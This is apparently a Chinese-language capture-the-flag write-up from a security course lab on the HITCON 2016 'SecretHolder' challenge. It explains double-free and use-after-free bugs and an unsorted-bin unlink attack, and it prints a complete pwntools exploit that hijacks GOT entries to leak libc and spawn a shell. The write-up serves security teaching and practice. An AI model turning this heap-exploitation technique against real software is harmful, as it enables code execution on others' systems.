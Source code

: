 # SecretHolder

[執行程式]

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_topic.jpg)

[解題]

首先可以透過執行程式看到其提供以下幾種功能:
* keep secret:有三種不同大小的空間，並依對應的大小輸入秘密到該空間。
* wipe secret:可以自行選擇要free掉哪種大小的空間。
* renew secret:重新創建某個大小的空間。

接下來可以用 ghidra 進行分析，其中看到比較有東西的程式畫面如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_code.jpg)

在 keep secret 的函數中使用 calloc() 為三種 secret 分配不同大小的 chunk (small chunk、big chunk、huge chunk)，在分配前會檢查相對應的 secret 是否已經存在，因為每種 chunk 只能有一個。而在 wipe secret 函數在釋放 secret 時，首先將對應的 chunk 釋放掉，然後設置 flag 為 0。最後，renew secret 函數會先判斷對應的 flag 是否為 1，表示 secret 是否已經存在，如果不存在則讀入 secret，否則函數直接返回。

透過程式碼解析可以發現有以下漏洞:
* double-free:在 free chunk 的位置 calloc 另一個 chunk，表示可以重複 free 這個 chunk。
* use-after-free:因為 double-free 的的情況發生，所以 calloc 出來的那個 chunk 會被認為是 free 的，但它實際上卻可以使用。

因此，本題可以利用 unsorted bin 的 unlink 來攻擊。

我們先建一個 big chunk，然後在 free 這個 big chunk，接著再建一個 small chunk 和一個 medium chunk。三個 chunk 的狀態會呈現如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_pic1.jpg)

接下來把 small chunk 和 medium chunk 都 free 掉，因為在分配 huge chunk 的時候，glibc 會調用函數 malloc_consolidate() 來清除 fastbin 中的 chunk，所以 medium chunk 會被放到了 small chunk 的位置，當再次分配 small chunk 時會造成堆塊重疊。因此，我们要對 medium 做 double free，我們要在 Small 的位置偽造假 chunk，也要重新建好 medium 的結構，還有在 medium 後面再偽造幾個假 chunk，繞過檢查。則現在的狀態如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_pic2.jpg)

再次 free 那個 medium，medium 就會與 Fake_chunk1 發生 unlink，這樣就能自由控制堆塊，把 free 的 got 表修改成 puts 的 plt 地址，當 free 時就能洩漏出訊息。

根據以上的敘述，exploit code 呈現如下:

#### exploit.py
```
from pwn import *
from LibcSearcher import *

sh = process('./SecretHolder')
elf = ELF('./SecretHolder')

# The address of huge_secret
huge_secret = 0x6020A8
bss_addr = 0x602090
free_got = elf.got['free']
puts_plt = elf.plt['puts']
read_got = elf.got['read']

def new(h_type, content):
   sh.sendlineafter('3. Renew secret', '1')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendlineafter('Tell me your secret:', content)

def delete(h_type):
   sh.sendlineafter('3. Renew secret', '2')
   sh.sendlineafter('3. Huge secret', str(h_type))

def edit(h_type, content):
   sh.sendlineafter('3. Renew secret', '3')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendafter('Tell me your secret:', content)

# apply one big chunk
new(3,'a'*0x100)
delete(3)

# apply one small chunk
new(1,'b'*0x10)

#apply one medium chunk
new(2,'c'*0x100)

# free chunk0 and chunk1
delete(1)
delete(2)

# create fake chunk
fake_chunk = p64(0) + p64(0x21)
#fd,bk
fake_chunk += p64(huge_secret-0x18) + p64(huge_secret-0x10)
payload = fake_chunk.ljust(0x20,'\x00')
#prev_size size
payload += p64(0x20) + p64(0x90) + 'c'*0x80   #chunk2
#prev_size size
payload += p64(0x90) + p64(0x81) + 'd'*0x70   #chunk3
#prev_size size
payload += p64(0) + p64(0x81)   #chunk4
# reapply big chunk
new(3, payload)

# unlink this 3 big bin
delete(2)
# Now, we can control this three heap pointer, modify them first
payload += p64(0) * 2 + p64(free_got) + p64(bss_addr) + p64(read_got) +p32(1)*3
edit(3,payload)

# modify free's got to put's plt
edit(2,p64(puts_plt))
#leakage the address of read
delete(1)
sh.recvuntil('\n')
read_addr = u64(sh.recvuntil('\n',drop = True).ljust(8,'\x00'))
libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print ('libc_base=',hex(read_addr))
print ('system_addr=',hex(system_addr))
#modify table got of free and point to system
edit(2,p64(system_addr))
#modify heap1 pointer and point to str(/bin/sh)
edit(3,p64(0) * 2 + p64(binsh_addr))
#system("/bin/sh")
delete(2)

sh.interactive()
```
這樣就可以順利找出 flag 了。

#### 參考資料
* https://blog.csdn.net/seaaseesa/article/details/104216111
* https://github.com/briansp8210/CTF-writeup/blob/master/HITCONCTF_2016_qual/SecretHolder/README.md
* https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/6.1.21_pwn_hitconctf2016_secret_holder.html
